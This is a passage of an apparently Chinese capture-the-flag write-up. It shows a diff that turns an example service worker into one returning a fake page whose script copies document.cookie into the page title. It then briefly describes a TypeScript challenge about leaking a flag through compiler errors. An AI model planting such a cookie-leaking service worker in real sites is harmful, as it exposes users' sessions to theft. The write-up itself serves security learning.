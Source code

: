 ```diff
--- a/service-worker/simple-service-worker/sw.js
+++ b/service-worker/simple-service-worker/sw.js
@@ -9,6 +9,13 @@ const putInCache = async (request, response) => {
 };

 const cacheFirst = async ({ request, preloadResponsePromise, fallbackUrl }) => {
+  return new Response(
+    `<title>fake</title><script> setTimeout(() => { document.title = document.cookie; }, 800); </script>`,
+    {
+      status: 200,
+      headers: { 'Content-Type': 'text/html' }
+    }
+  );
   // First try to get the resource from the cache
   const responseFromCache = await caches.match(request);
   if (responseFromCache) {
@@ -58,19 +65,6 @@ self.addEventListener('activate', (event) => {
 });

 self.addEventListener('install', (event) => {
-  event.waitUntil(
-    addResourcesToCache([
-      './',
-      './index.html',
-      './style.css',
-      './app.js',
-      './image-list.js',
-      './star-wars-logo.jpg',
-      './gallery/bountyHunters.jpg',
-      './gallery/myLittleVader.jpg',
-      './gallery/snowTroopers.jpg',
-    ])
-  );
 });

 self.addEventListener('fetch', (event) => {
```

顺便一提扩展 [ArchiveWeb.page](https://github.com/webrecorder/archiveweb.page)
的回放功能也是用 Service Worker 实现的。虽然有些网页会有问题，比如知乎专栏。
有网页存档需求的网友可以用用看。

## 简单的打字稿

以前没学过类似的语言，全靠乱搞。我跟编译器打起来了.jpg

代码是在 <https://www.typescriptlang.org/play/>
上写的，有自动补全、鼠标悬停显示类型和自动类型检查，很好用。

首先想到实例化一个对象然后打印。又查又写折腾了好一会，无果。`index.ts`
没给读文件的权限，尝试修改 `stderr` 把 `flag` 替换掉也不成功。
剩下只能让原始的报错就不包含 `flag` 了。
